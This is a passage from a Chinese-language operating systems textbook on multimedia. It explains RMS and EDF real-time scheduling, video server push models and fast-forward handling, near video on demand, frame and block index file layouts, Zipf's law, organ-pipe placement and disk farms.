在图7-14中，最初所有三个进程都就绪要运行，优先级最高的进程A被选中，并准许它运行直到它在10ms时完成，如图7-14中的RMS一行所示。在进程A完成之后，进程B和C以先后次序运行。合起来，这些进程花费了30ms的时间运行，所以当C完成的时候，正是该A再次运行的时候。这一轮换持续进行直到t=70时系统变为空闲。
在t=80时，进程B就绪并开始运行。然而，在t=90时，优先级更高的进程A变为就绪，所以它抢占B并运行，直到在t=100时完成。在这一时刻，系统可以在结束进程B或者开始进程C之间进行选择，所以它选择优先级最高的进程B。
另一个流行的实时调度算法是最早最终时限优先（Earliest Deadline First，EDF）算法。EDF是一个动态算法，它不像速率单调算法那样要求进程是周期性的。它也不像RMS那样要求每个CPU突发有相同的运行时间。只要一个进程需要CPU时间，它就宣布它的到来和最终时限。调度程序维持一个可运行进程的列表，该列表按最终时限排序。EDF算法运行列表中的第一个进程，也就是具有最近最终时限的进程。当一个新的进程就绪时，系统进行检查以了解其最终时限是否发生在当前运行的进程结束之前。如果是这样，新的进程就抢占当前正在运行的进程。
图7-14给出了EDF的一个例子。最初所有三个进程都是就绪的，它们按其最终时限的次序运行。进程A必须在t=30之前结束，B必须在t=40之前结束，C必须在t=50之前结束，所以A具有最早的最终时限并因此而先运行。直到t=90，选择都与RMS相同。在t=90时，A再次就绪，并且其最终时限为t=120，与B的最终时限相同。调度程序可以合理地选择其中任何一个运行，但是由于抢占B具有某些非零的代价与之相联系，所以最好是让B继续运行，而不去承担切换的代价。
为了消除RMS和EDF总是给出相同结果的想法，现在让我们看一看另外一个例子，如图7-15所示。在这个例子中，进程A、B和C的周期与前面的例子相同，但是现在A每次突发需要15ms的CPU时间，而不是只有10ms。可调度性测试计算CPU的利用率为0.500+0.375+0.100=0.975。CPU只留下了2.5%，但是在理论上CPU并没有被超额预定，找到一个合理的调度应该是可能的。
对于RMS，三个进程的优先级仍为33、25和20，因为优先级只与周期有关系，而与运行时间没有关系。这一次，进程B直到t=30才结束，在这一时刻，进程A再次就绪要运行。等到A结束时，t=45，此时B再次就绪，由于它的优先级高于C，所以B运行而C则错过了其最终时限。RMS失败。
现在看一看EDF如何处理这种情况。当t=30时，在A2和C1之间存在竞争。因为C1的最终时限是50，而A2的最终时限是60，所以C被调度。这就不同于RMS，在RMS中A由于较高的优先级而成为赢家。
当t=90时，A第四次就绪。A的最终时限与当前进程相同（同为120），所以调度程序面临抢占与否的选择。如前所述，如果不是必要最好不要抢占，所以B3被允许完成。
在图7-15所示的例子中，直到t=150，CPU都是100%被占用的。然而，因为CPU只有97.5%被利用，所以最终将会出现间隙。由于所有开始和结束时间都是5ms的倍数，所以间隙将是5ms。为了获得要求的2.5%的空闲时间，5ms的间隙必须每200ms出现一次，这就是间隙为什么没有在图7-15中出现的原因。
一个有趣的问题是RMS为什么会失败。根本上，使用静态优先级只有在CPU的利用率不太高的时候才能工作。Liu和Layland（1973）证明了对于任何周期性进程系统，如果
那么就可以保证RMS工作。对于m=3、4、5、10、20和100，最大允许利用率为0.780、0.757、0.743、0.718、0.705和0.696。随着m→∞，最大利用率逼近ln 2。换句话说，Liu和Layland证明了，对于三个进程，如果CPU利用率等于或小于0.780，那么RMS总是可以工作的。在第一个例子中，CPU利用率为0.808而RMS工作正常，但那只不过是幸运罢了。对于不同的周期和运行时间，利用率为0.808很可能会失败。在第二个例子中，CPU利用率如此之高（0.975），根本不存在RMS能够工作的希望。
与此相对照，EDF对于任意一组可调度的进程总是可以工作的，它可以达到100%的CPU利用率，付出的代价是更为复杂的算法。因而，在一个实际的视频服务器中，如果CPU利用率低于RMS限度，可以使用RMS，否则，应该选择EDF。
至此我们已经讨论了多媒体系统中的进程调度，下面继续我们的研究，看一看多媒体文件系统。这样的文件系统使用了与传统文件系统不同的范型。我们首先回顾传统的文件I/O，然后将注意力转向多媒体文件服务器是如何组织的。进程要访问一个文件时，首先要发出open系统调用。如果该调用成功，则调用者被给予某种令牌以便在未来的调用中使用，该令牌在UNIX中被称为文件描述符，在Windows中被称为句柄。这时，进程可以发出read系统调用，提供令牌、缓冲区地址和字节计数作为参数。操作系统则在缓冲区中返回请求的数据。以后还可以发出另外的read调用，直到进程结束，在进程结束时它将调用close以关闭文件并返回其资源。
由于实时行为的需要，这一模型对于多媒体并不能很好地工作。在显示来自远程视频服务器的多媒体文件时，该模型的工作尤为拙劣。第一个问题是用户必须以相当精确的时间间隔进行read调用。第二个问题是视频服务器必须能够没有延迟地提供数据块，当请求没有计划地到来并且预先没有保留资源时，做到这一点是十分困难的。
为解决这些问题，多媒体文件服务器使用了一个完全不同的范型：像录像机（Video Cassette Recorder，VCR）一样工作。为了读取一个多媒体文件，用户进程发出start系统调用，指定要读的文件和各种其他参数，例如，要使用哪些音频和字幕轨迹。接着，视频服务器开始以必要的速率送出帧。然后用户进程以帧进来的速率对它们进行处理。如果用户对所看的电影感到厌烦，那么发出stop系统调用可以将数据流终止。具有这种数据流模型的文件服务器通常被称为推送型服务器（push server），因为它将数据推送给用户；与此相对照的是传统的拉取型服务器（pull server），用户不得不通过重复地调用read一块接一块地取得数据，每调用一次可以拉取出一块数据。这两个模型之间的区别如图7-16所示。
大多数视频服务器也实现了标准的VCR控制功能，包括暂停、快进和倒带。暂停是相当简单的。用户发送一个消息给视频服务器，告诉它停止。视频服务器此时要做的全部事情是记住下一次要送出的是哪一帧。当用户要求服务器恢复播放时，服务器只要从它停止的地方继续就可以了。
然而，这里存在着一个复杂因素。为了获得可接受的性能，服务器应该为每个流出的数据流保留诸如磁盘带宽和内存缓冲区等资源。当电影暂停时继续占用这些资源将造成浪费，特别是如果用户打算到厨房中找到一块冷冻的比萨饼（或许是特大号的）、用微波炉烹调并且美餐一顿的时候。当然，在暂停的时候可以很容易地将资源释放，但是这引入了风险：当用户试图恢复播放的时候，有可能无法重新获得这些资源。
真正的倒带实际上非常简单，没有任何复杂性。服务器要做的全部事情是注意到下一次要送出的帧是第0帧。还有比这更容易的吗？然而，快进和快倒（也就是在倒带的同时播放）就难处理多了。如果没有压缩，那么以10倍的速度前进的一种方法是每10帧只显示一帧，以20倍的速度前进则要求每20帧显示一帧。实际上，在不存在压缩的情况下，以任意速度前进和后退都是十分容易的。要以正常速度的k倍运行，只要每k帧显示一帧就可以了。要以正常速度的k倍后退，只要沿另一个方向做相同的事情就可以了。这一方法在推送型服务器和拉取型服务器上工作得同样好。
压缩则使快进和快倒复杂起来。对于便携式摄像机的DV磁带，由于其每一帧都是独立于其他帧而压缩的，所以只要能够快速地找到所需要的帧，使用这一策略还是有可能的。由于视其内容不同每一帧的压缩量也有所不同，所以每一帧具有不同的大小，因而在文件中向前跳过k帧并不能通过数字计算来完成。此外，音频压缩是独立于视频压缩的，所以对于在高速模式中显示的每一视频帧，还必须找到正确的音频帧（除非在高于正常速度播放时将声音关闭）。因此，对一个DV文件进行快进操作需要有一个索引，该索引可以使帧的查找快速地实现，但是至少在理论上这样做是可行的。
对于MPEG，由于使用I帧、P帧和B帧，这一方案即使在理论上也是不能工作的。向前跳过k帧（就算假设能这样做）可能落在一个P帧上，而这个P帧则基于刚刚跳过的一个I帧。没有基本帧，只有从基本帧发生的增量变化（这正是P帧所包含的）是无用的。MPEG要求按顺序播放文件。
攻克这一难题的另一个方法是实际尝试以10倍的速度顺序地播放文件。然而，这样做就要求以10倍的速度将数据拉出磁盘。此时，服务器可能试图将帧解压缩（这是正常情况下服务器不需要做的事情），判定需要哪一帧，然后每隔10帧重新压缩成一个I帧。然而，这样做给服务器增加了沉重的负担。这一方法还要求服务器了解压缩格式，正常情况下服务器不必了解这些东西。
作为替代，可以通过网络实际发送所有的数据给用户，并在用户端选出正确的帧，这样做就要求网络以10倍的速度运行，这或许是可行的，但是在这么高的速度下正常操作肯定不是一件容易的事情。
总而言之，不存在容易的方法。惟一可行的策略要求预先规划。可以做的事情是建立一个特殊的文件，包含每隔10帧中的一帧，并且将该文件以通常的MPEG算法进行压缩。这个文件正是在图7-3中注为“快进”的那个文件。要切换到快进模式，服务器必须判定在快进文件中用户当前所在的位置。例如，如果当前帧是48 210并且快进文件以10倍的速度运行，那么服务器在快进文件中必须定位到4821帧并且在此处以正常速度开始播放。当然，这一帧可能是P帧或B帧，但是客户端的解码进程可以简单地跳过若干帧直到看见一个I帧。利用特别准备的快倒文件，可以用类似的方法实现快倒。
当用户切换回到正常速度时，必须使用相反的技巧。如果在快进文件中当前帧是5734，服务器只要切换回到常规文件并且从57 340帧处继续播放。同样，如果这一帧不是一个I帧，客户端的解码进程必须忽略所有的帧直到看见一个I帧。
尽管有了这两个额外的文件可以做这些工作，这一方案还是有某些缺点。首先，需要某些额外的磁盘空间来存放额外的文件。其次，快进和倒带只能以对应于特别文件的速度进行。第三，在常规文件、快进文件和快倒文件之间来回切换需要额外的复杂算法。
有k个用户取得相同的电影和这些用户取得k部不同的电影在本质上给服务器施加了相同的工作量。然而，通过对模型做一个小小的修改，就可能获得巨大的性能改进。视频点播面临的问题是用户可能在任意时刻开始观看一部电影，所以，如果有100个用户全部在晚8点左右开始观看某个新电影，很可能不会有两个用户在完全相同的时刻开始，所以他们无法共享一个数据流。使优化成为可能的修改是，通知所有用户电影只在整点和随后每隔（例如）5分钟开始。因此，如果一个用户想在8:02看一部电影，那么他必须等到8:05。
这样做的收益是，不管存在多少客户，对于一部2小时的电影，只需要24个数据流。如图7-17所示，第一个数据流开始于8:00。在8:05，当第一个数据流处于第9000帧时，第二个数据流开始。在8:10，当第一个数据流处于第18 000帧并且第二个数据流处于第9000帧时，第三个数据流开始，以此类推直到第24个数据流开始于9:55。在10:00，第一个数据流终止并且再一次从第0帧开始。这一方案称为近似视频点播（near video on demand），因为视频并不是完全随着点播而开始，而是在点播之后不久开始。
这里的关键参数是多长时间开始一个数据流。如果每2分钟开始一个数据流，那么对于一部2小时的电影来说就需要60个数据流，但是开始观看的最大等待时间是2分钟。运营商必须判定人们愿意等待多长时间，因为人们愿意等待的时间越长，系统效率就越高，并且同时能够被观看的电影就越多。一个替代的策略是同时提供不用等待的选择权，在这种情况下，新的数据流可以立刻开始，但是需要对系统做更多的修改以支持即时启动。
在某种意义上，视频点播如同使用出租车：一招手它就来。近似视频点播如同使用公共汽车：它有着固定的时刻表，乘客必须等待下一辆。但是大众交通只有在存在大众的时候才有意义。在曼哈顿中心区，每5分钟一辆的公共汽车加起来至少还可以拉上一些乘客；而在怀俄明州乡间公路上旅行的公共汽车，可能在所有的时间几乎都是空空的。类似地，播放史蒂文・斯皮尔伯格的最新大片可能吸引足够多的客户，从而保证每5分钟开始一个新的数据流；但是对于《乱世佳人》这样的经典影片，最好还是简单地在点播的基础上播映。
对于近似视频点播，用户不具有VCR控制能力。没有用户能够暂停一部电影而去一趟厨房。他们所能做的最好的事情不过是当他们从厨房中返回时，向后退到随后开始的一个数据流，从而使漏过的几分钟资料重现。
实际上，近似视频点播还有另外一个模型。在这个模型中，人们可以在他们需要的任意时候预订电影，而不是预先宣布每隔5分钟将开演某部电影。每隔5分钟，系统要查看哪些电影已经被预订并且开始这些电影。采用这一方案时，根据点播的情况，一部电影可能在8:00、8:10、8:15和8:25开始，但不会在中间的时间开始。结果，没有观众的数据流就不会被传输，节约了磁盘带宽、内存和网络容量。另一方面，现在到厨房去制作冰淇淋就有点冒险，因为不能保证在观众正在观看的电影之后5分钟还有另一个数据流正在运行。当然，运营商可以给用户提供一个选项，以便显示所有同时发生的数据流的一个列表，但是大多数人觉得他们的电视机遥控器按钮已经太多，不大可能会热情地欢迎更多的几个按钮。
将近似视频点播（为的是效率）加上每个个体观众完全的VCR控制（为的是方便用户）是一种理想的组合。通过对模型进行略微的修正，这样的设计是有可能的。下面我们将介绍为达到这一目标所采用的一种方法（Abram-Profeta和Shin,1998），我们给出的是略微简化了的描述。
我们将以图7-17所示的标准近似视频点播模式为开端。可是，我们要增加要求，即要求每个客户机在本地缓冲前∆T分钟以及即将来临的∆T分钟。缓冲前∆T分钟是十分容易的：只要在显示之后将其保存下来即可。缓冲即将来临的∆T分钟是比较困难的，但是如果客户机有一次读两个数据流的能力也是可以实现的。
可以用一个例子来说明建立缓冲区的一种方法。如果一个用户在8:15开始观看电影，那么客户机读入并显示8:15的数据流（该数据流正处于第0帧）。与此并行，客户机读入并保存8:10的数据流，该数据流当前正处于5分钟的标记处（也就是第9000帧）。在8:20时，第0帧至第17 999帧已经被保存下来，并且用户下面将要看到的应该是第9000帧。从此刻开始，8:15的数据流被放弃，缓冲区用8:10的数据流（该数据流正处于第18 000帧）来填充，而显示则从缓冲区的中间点（第9000帧）驱动。当每一新的帧被读入时，在缓冲区的终点处添加一帧，而在缓冲区的起点处丢弃一帧。当前被显示的帧称为播放点（play point），它总是处于缓冲区的中间点。图7-18a所示为电影播放到第75分钟时的情形。此时，70分钟到80分钟之间所有的帧都在缓冲区中。如果数据率是4 Mbps，则10分钟的缓冲区需要300M字节的存储容量。以目前的价格，这样的缓冲区肯定可以在磁盘中保持，并且在RAM中保持也是可能的。如果希望使用RAM，但是300M字节又太大，那么可以使用小一些的缓冲区。
现在假设用户决定要快进或者快倒。只要播放点保持在70到80分钟的范围之内，显示就可以从缓冲区馈入。然而，如果播放点在某个方向离开了这一区间，我们就遇到了问题。解决方法是开启一个私有（也就是视频点播）数据流以服务于用户。沿着某个方向快速运动可以用前面讨论过的技术来处理。
通常，在某一时刻用户可能会安下心来决定再次以正常速度观看电影。此时，我们可以考虑将用户迁移到某一近似视频点播数据流，这样私有数据流就可以被放弃。例如，假设用户决定返回到12分钟标号处，如图7-18b所示。这一点远远超出了缓冲区的范围，所以显示不可能从缓冲区馈入。此外，由于切换（立刻）发生在第75分钟，系统中存在着正在显示电影第5、10、15和20分钟那一帧的数据流，但是没有显示电影第12分钟那一帧的数据流。
解决方法是继续观看私有数据流，但是开始从当前正播放电影第15分钟那一帧的数据流填充缓冲区。经过3分钟之后的情形如图7-18c所示。播放点现在是第15分钟，缓冲区包含了15到18分钟的帧，而近似视频点播数据流正处在第8、13、18和23分钟。在这一时刻，私有数据流可以被放弃，显示可以从缓冲区馈入。缓冲区继续从现在正处于第18分钟的数据流填充。经过另一分钟之后，播放点是第16分钟，缓冲区包含了15到19分钟的帧，并且数据流在第19分钟处将数据馈入缓冲区，如图7-18d所示。
经过另外6分钟之后，缓冲区变满，并且播放点是在第22分钟。播放点不是处于缓冲区的中间点，但是如果必要可以进行这样的整理。
多媒体文件非常庞大，通常只写一次而读许多次，并且倾向于被顺序访问。它们的回放还必须满足严格的服务质量标准。总而言之，这些要求暗示着不同于传统操作系统使用的文件系统布局。我们在下面将讨论某些这样的问题，首先针对单个磁盘，然后是多个磁盘。
最为重要的要求是数据能够以必要的速度流出到网络或输出设备上，并且没有颤动。为此，在传输一帧的过程中有多次寻道是极度不受欢迎的。在视频服务器上消除文件内寻道的一种方法是使用连续的文件。通常，使文件为连续的工作做得并不十分好，但是在预先精心装载了电影的视频服务器上它工作得还是不错的，因为这些电影后来不会再发生变化。
然而，视频、音频和文本的存在是一个复杂因素，如图7-3所示。即使视频、音频和文本每个都存储为单独的连续文件，从视频文件到音频文件，再从音频文件到文本文件的寻道在需要的时候还是免不了的。这使人想起第二种可能的存储排列，使视频、音频和文本交叉存放，但是整个文件还是连续的，如图7-19所示。此处，直接跟随第1帧视频的是第1帧的各种音频轨迹，然后是第1帧的各种文本轨迹。根据存在多少音频和文本轨迹，最简单的可能是在一次磁盘读操作中读入每一帧的全部内容，然后只将需要的部分传输给用户。
这一组织需要额外的磁盘I/O读入不必要的音频和文本，在内存中还需要额外的缓冲区空间存放它们。可是它消除了所有的寻道（在单用户系统上），并且不需要任何系统开销跟踪哪一帧在磁盘上的什么地方，因为整部电影存放在一个连续文件中。以这样的布局，随机访问是不可能的，但是如果不需要随机访问，这点损失并不严重。类似地，如果没有额外的数据结构和复杂性，快进和快倒也是不可能的。
在具有多个并发输出流的视频服务器上，使整部电影成为一个连续文件的优点就失去了，因为从一部电影读取一帧之后，磁盘可能不得不从许多其他电影读入帧，然后才能返回到第一部电影。同样，对于一部电影既可以读也可以写的系统（例如用于视频生产或编辑的系统）来说，使用巨大的连续文件是很困难的，因而也是没有用的。
这些考虑导致两个针对多媒体文件的其他文件存放组织。第一个是小块模型，如图7-20a所示。在这种组织中，选定磁盘块的大小比帧的平均大小，甚至是比P帧和B帧的大小，要小得多。对于每秒30帧以4 Mbps速率传输的MPEG-2而言，帧的平均大小为16KB，所以一个磁盘块的大小为1KB或2KB工作得比较好。这里的思想是每部电影有一个帧索引，这是一个数据结构，每一帧有一个帧索引项，指向帧的开始。每一帧本身是一连串连续的块，包含该帧所有的视频、音频和文本轨迹，如图7-20中所示。这样，读第k帧时首先要在帧索引中找到第k个索引项，然后在一次磁盘操作中将整个帧读入。由于不同的帧具有不同的大小，所以在帧索引中需要有表示帧大小的字段（以块为单位），即便对于1KB大小的磁盘块，8位的字段也可以处理最大为255KB的帧，这对于一个未压缩NTSC帧来说，就算它有许多音频轨迹也已经足够了。
存放电影的另一个方法是使用大磁盘块（比如256KB），并且在每一块中放入多个帧，如图7-20b所示。这里仍然需要一个索引，但是这次不是帧索引而是块索引。实际上，该索引与图6-15中的i节点基本相同，只是可能还有额外的信息表明哪一帧处于每一块的开始，这样就有可能快速地找到指定的帧。一般而言，一个磁盘块拥有的帧的数目不见得是整数，所以需要做某些机制来处理这一问题。解决这一问题有两种选择。
第一种选择如图7-20b所示，当下一帧填不满当前磁盘块的时候，则磁盘块剩余的部分就保持空闲状态。这一浪费的空间就是内部碎片，与具有固定大小页面的虚拟内存系统中的内部碎片相同。但是，这样做在一帧的中间决不需要进行寻道。
另一种选择是填充每一磁盘块到尽头，将帧分裂开使其跨越磁盘块。这一选择在帧的中间引入寻道的需要，这将损害性能，但是由于消除了内部碎片而节约了磁盘空间。
作为对比，图7-20a中小块的使用也会浪费某些磁盘空间，因为在每一帧的最后一块可能有一小部分未被使用。对于1KB的磁盘块和一部由216 000帧组成的2小时的NTSC电影，浪费的磁盘空间总共只有3.6GB中的大约108KB。图7-20b浪费的磁盘空间计算起来非常困难，但是肯定多很多，因为在一个磁盘块的尽头有时会留下100KB的空间，而下一帧是一个比它大的I帧。
另一方面，块索引比帧索引要小很多。对于256KB的块，如果帧的平均大小为16KB，那么一个块大约可以装下16个帧，所以一部由216 000帧组成的电影在块索引中只需要有13 500个索引项，与此相对比，对于帧索引则需要216 000个索引项。因为性能的原因，在这两种情形中索引都应该列出所有的帧或磁盘块（也就是说不像UNIX那样有间接块），所以块索引在内存中占用了13 500个8字节的项（4个字节用于磁盘地址，1个字节用于帧的大小，3个字节用于起始帧的帧号），帧索引则在内存中占用了216 000个5字节的项（只有磁盘地址和帧的大小），比较起来，当电影在播放时，块索引比帧索引节省了接近1MB的RAM空间。
这些考虑导出了如下的权衡：
1)帧索引：电影在播放时使用大量的RAM；磁盘浪费小。
2)块索引（禁止分裂帧跨越磁盘块）：RAM用量低；磁盘浪费较大。
3)块索引（允许分裂帧跨越磁盘块）：RAM用量低；无磁盘浪费；需要额外寻道。
因此，这里的权衡涉及回放时RAM的使用量、自始至终浪费的磁盘空间以及由于额外寻道造成的回放时的性能损失。但是，这些问题可以用各种方法来解决。采用分页操作在需要的时候及时将帧索引装入内存，可以减少RAM的使用量。通过足够的缓冲可以屏蔽在帧传输过程中的寻道，但是这需要额外的内存并且可能还需要额外的复制操作。好的设计必须仔细分析所有这些因素，并且为即将投入的应用做出良好的选择。
这里的另一个因素是图7-20a中的磁盘存储管理更加复杂，因为存放一帧需要找到大小合适的一连串连续的磁盘块。理想情况下，这一连串磁盘块不应该跨越一个磁道的边界，但是通过磁头偏斜，这一损失并不严重。然而，跨越一个柱面的边界则应该避免。这些要求意味着，磁盘的自由存储空间必须组织成变长孔洞的列表，而不是简单的块列表或者位图。与此相对照，块列表或者位图都可以用在图7-20b中。
在上述所有情况下，还要说明的是，只要可能应该把一部电影的所有块或者帧放置在一个狭窄的范围之内，比如说几个柱面。这样的存放方式意味着寻道可以更快，从而留下更多的时间用于其他（非实时）活动，或者可以支持更多的视频流。这种受约束的存放可以通过将磁盘划分成柱面组来实现，每个组保持单独的空闲块列表或位图。如果使用孔洞，可能存在一个1KB孔洞的列表、一个2KB孔洞的列表、一个3KB到4KB孔洞的列表、一个5KB到8KB孔洞的列表等。以这种方法在一个给定的柱面组中找到一个给定大小的孔洞是十分容易的。
这两种方法之间的另一个区别是缓冲。对于小块方法，每次读操作正好读取一帧。因此，采用简单的双缓冲策略就工作得相当好：一个缓冲区用于回放当前帧，另一个用于提取下一帧。如果使用固定大小的缓冲区，则每个缓冲区必须足够大以装得下最大可能的I帧。另一方面，如果针对每一帧从一个池中分配不同的缓冲区，并且当帧在被读入之前其大小未知，那么对于P帧和B帧就可以选择一个较小的缓冲区。
使用大磁盘块时，因为每一块包含多个帧，并且在每一块的尽头还可能包含帧的片段（取决于选定前面提到的是哪种选择），因而需要更加复杂的策略。如果显示或传输帧时要求它们是连续的，那么它们就必须被复制，但是复制是一个代价高昂的操作，应该尽可能避免。如果连续性是不必要的，那么跨越块边界的帧可以分两次送出到网络上或者送出到显示设备上。
双缓冲也可以用于大磁盘块，但是使用两个大磁盘块会浪费内存。解决浪费内存问题的一种方法是使用比为网络或显示器提供数据的磁盘块（每个数据流）稍大一些的循环传输缓冲区。当缓冲区的内容低于某个阈值时，从磁盘读入一个新的大磁盘块，将其内容复制到传输缓冲区，并且将大磁盘块缓冲区返还给通用池。循环缓冲区大小的选取必须使得在它达到阈值时，还有空间能够容纳另一个完整的磁盘块。因为传输缓冲区可能要环绕，所以磁盘读操作不能直接达到传输缓冲区。这里复制和内存的使用量相互之间存在着权衡。
在比较这两种方法时，还有另一个因素就是磁盘性能。使用大磁盘块时磁盘可以以全速运转，这经常是主要关心的事情。作为单独的单位读入小的P帧和B帧效率是比较低的。此外，将大磁盘块分解在多个驱动器上（下面将讨论）是可能的，而将单独的帧分解在多个驱动器上是不可能的。
图7-20a的小块组织有时称为恒定时间长度（constant time length），因为索引中的每个指针代表着相同的播放时间毫秒数。相反，图7-20b的组织有时称为恒定数据长度（constant data length），因为数据块的大小相同。
两种文件组织间的另一个区别是，如果帧的类型存储在图7-20a的索引中，那么有可能通过仅仅显示I帧实现快进。然而，根据I帧出现在数据流中的频度，人们可能会察觉到播放的速率太快或太慢。在任何情况下，以图7-20b的组织，这样的快进都是不可能的。实际上连续地读文件以选出希望的帧需要大量的磁盘I/O。
第二种方法是使用一个特殊的文件给人以10倍速度快进的感觉，而这个特殊的文件是以正常速度播放的。这个文件可以用与其他文件相同的方法构造，可以使用帧索引也可以使用块索引。打开一个文件的时候，如果需要，系统必须能够找到快进文件。如果用户按下快进按钮，系统必须立即找到并且打开快进文件，然后跳到文件中正确的地方。系统所知道的是当前所在帧的帧号，但是它所需要的是能够在快进文件中定位到相应的帧。如果系统当前所在的帧号是4816，并且知道快进文件是10倍速，那么它必须在快进文件中定位到第482帧并且从那里开始播放。
如果使用了帧索引，那么定位一个特定的帧是十分容易的，只要检索帧索引即可。如果使用的是块索引，那么每个索引项中需要有额外的信息以识别哪一帧在哪一块中，并且必须对块索引执行二分搜索。快倒的工作方式与快进相类似。
到目前为止我们已经了解了视频点播的文件存放策略。对于近似视频点播，采用不同的文件存放策略可以获得更高的效率。我们还记得，近似视频点播将同一部电影作为多个交错的数据流送出。即使电影是作为连续文件存放的，每个数据流也需要进行寻道。Chen和Thapar（1997）设计了一种文件存放策略几乎可以消除全部这样的寻道。图7-21说明了这一方法的应用，图7-21中的电影以每秒30帧的速率播放，每隔5分钟开始一个新的数据流（参见图7-17）。根据这些参数，2小时长的电影需要24个当前数据流。
在这一存放策略中，由24个帧组成的帧集合连成一串并且作为一个记录写入磁盘。它们还可以在一个读操作中被读回。考虑这样一个瞬间，数据流24恰好开始，它需要的是第0帧，5分钟前开始的数据流23需要的是第9000帧；数据流22需要的是第18 000帧，以此类推，直到数据流0，它需要的是第20 700帧。通过将这些帧连续地存放在一个磁道上，视频服务器只用一次寻道（到第0帧）就可以以相反的顺序满足全部24个数据流的需要。当然，如果存在某一原因要以升序为数据流提供服务，这些帧也可以以相反的顺序存放在磁盘上。完成对最后一个数据流的服务之后，磁盘臂可以移到磁道2准备再次为这些数据流服务。这一方法不要求整个文件是连续的，但是对于若干个同时的数据流仍然给予了良好的性能。
简单的缓冲策略是使用双缓冲。当一个缓冲区正在向外播放24个数据流的时候，另一个缓冲区正在预先加载数据。当前操作结束时，两个缓冲区进行交换，刚才用于回放的缓冲区现在在一个磁盘操作中加载数据。
一个有趣的问题是构造多大的缓冲区。显然，它必须能够装下24个帧。然而，由于帧的长度是变化的，选取正确大小的缓冲区并不完全是无足轻重的事情。使缓冲区大到足以装下24个I帧是不必要的过度行为，但是使缓冲区大小为24个平均帧则要冒风险。
幸运的是，对于任何一部给定的电影，电影中最大的磁道（在图7-21的意义上说）事先是已知的，所以可以选择缓冲区恰好为这一大小。然而，很有可能发生这样的事情，最大的磁道有16个I帧，而第二大的磁道只有9个I帧。选择缓冲区的大小能够足以装下第二大的磁道可能更为明智。做出这样的选择意味着要截断最大的磁道，因此对某些数据流将舍弃电影中的一帧。为避免低频干扰，前一帧可以再次显示，没有人会注意到这一问题。
进一步运用这一方法，如果第三大的磁道只有4个I帧，使用能够保存4个I帧和20个P帧的缓冲区是值得的。对某些数据流在电影中两次引入两个重复的帧可能是可以接受的。这样做下去何处是头呢？也许是缓冲区大小对于99%的帧而言足够大就行了。显然，在缓冲区使用的内存和电影的质量之间存在着权衡。注意，同时存在的数据流越多，统计数据就越好并且帧集合也越均匀。
到目前为止我们还只考虑了单部电影的存放。在视频服务器上，当然存在着许多电影。如果它们随机地散布在磁盘上，那么当多部电影被不同的客户同时观看时，时间将浪费在磁头在电影之间来回移动上。
通过观察到某些电影比其他电影更为流行并且在磁盘上存放电影时将流行性考虑进去，可以改进这一情况。尽管总的来说有关个别电影的流行性并没有多少可说的（除了有大腕明星似乎有所帮助以外），但是大体上关于电影的相对流行性总还是可以说出一些规律。
对于许多种类的流行性比赛，诸如出租的电影、从图书馆借出的图书、访问的Web网页，甚至一部小说中使用的英文单词或者特大城市居住的人口，相对流行性的一个合理的近似遵循着一种令人惊奇的可预测模式。这一模式是哈佛大学的一位语言学教授George Zipf（1902-1950）发现的，现在被称为Zipf定律。该定律说的是，如果电影、图书、Web网页或者单词按其流行性进行排名，那么下一个客户选择排行榜中排名为k的项的概率是C/k，其中C是一个归一化常数。
因而，前三部电影的命中率分别是C/1、C/2和C/3，其中C的计算要使全部项的和为1。换句话说，如果有N部电影，那么
C/1+C/2+C/3+C/4+…+C/N=1
从这一公式，C可以被计算出来。对于具有10个、100个、1000个和10 000个项的总体，C的值分别是0.341、0.193、0.134和0.102。例如，对于1000部电影，前5部电影的概率分别是0.134、0.067、0.045、0.034和0.027。
图7-22说明了Zipf定律。只是为了娱乐，该定律被应用于美国20座最大城市的人口。Zipf定律预测第二大城市应该具有最大城市一半的人口，第三大城市应该具有最大城市三分之一的人口，以此类推。虽然不尽完美，该定律令人惊奇地吻合。
对于视频服务器上的电影而言，Zipf定律表明最流行的电影被选择的次数是第二流行的电影的两倍，是第三流行的电影的三倍，以此类推。尽管分布在开始时下降得相当快，但是它有着一个长长的尾部。例如，排名50的电影拥有C/50的流行性，排名51的电影拥有C/51的流行性，所以排名51的电影的流行性是排名50的电影的50/51，只有大约2%的差额。随着尾部进一步延伸，相邻电影间的百分比差额变得越来越小。一个结论就是，服务器需要大量的电影，因为对于前10名以外的电影存在着潜在的需求。
了解不同电影的相对流行性，使得对视频服务器的性能进行建模以及将该信息应用于存放文件成为可能。研究已经表明，最佳的策略令人惊奇地简单并且独立于分布。这一策略称为管风琴算法（organ-pipe algorithm）（Grossman和Silverman,1973;Wong,1983）。该算法将最流行的电影存放在磁盘的中央，第二和第三流行的电影存放在最流行的电影的两边，在这几部电影的外边是排名第四和第五的电影，以此类推，如图7-23所示。如果每一部电影是如图7-19所示类型的连续文件，这样的存放方式工作得最好；如果每一部电影被约束在一个狭窄的柱面范围之内，这样的存放方式也可以扩大其使用的范围。该算法的名字来自这样的事实——概率直方图看起来像是一个稍稍不对称的管风琴。
该算法所做的是试图将磁头保持在磁盘的中央。当服务器上的电影有1000部时，根据Zipf定律分布，排在前5名的电影代表了0.307的总概率，这意味着大约30%的时间磁头停留在为排在前5名的电影分配的柱面中，如果有1000部电影可用，这是一个惊人的数量。
为了获得更高的性能，视频服务器经常拥有可以并行运转的很多磁盘。RAID有时会被用到，但是通常并不是因为RAID以性能为代价提供了更高的可靠性。视频服务器通常希望高的性能而对于校正传输错误不怎么太关心。除此之外，如果RAID控制器有太多的磁盘要同时处理，那么RAID控制器可能会成为一个瓶颈。
更为普通的配置只是数目很多的磁盘，有时被称为磁盘园（disk farm）。这些磁盘不像RAID那样以同步方式旋转，也不像RAID那样包含奇偶校验位。一种可能的配置是将电影A存放在磁盘1上，将电影B存放在磁盘2上，以此类推，如图7-24a所示。实际上，使用新式的磁盘，每个磁盘上可以存放若干部电影。
这一组织方式实现起来很简单，并且具有简单明了的故障特性：如果一块磁盘发生故障，其上的所有电影都将不再可用。注意，一家公司损失了一块装满了电影的磁盘并没有一家公司损失了一块装满了数据的磁盘那么糟糕，因为电影还可以从DVD重新装载到一块空闲的磁盘中。这一方法的缺点是负载可能没有很好地平衡，如果某些磁盘上装载的是目前十分热门的电影，而另外的磁盘上装载的是不太流行的电影，则系统就没有被充分利用。当然，一旦知道了电影的使用频率，那么手工移动某些电影以平衡负载也是可能的。
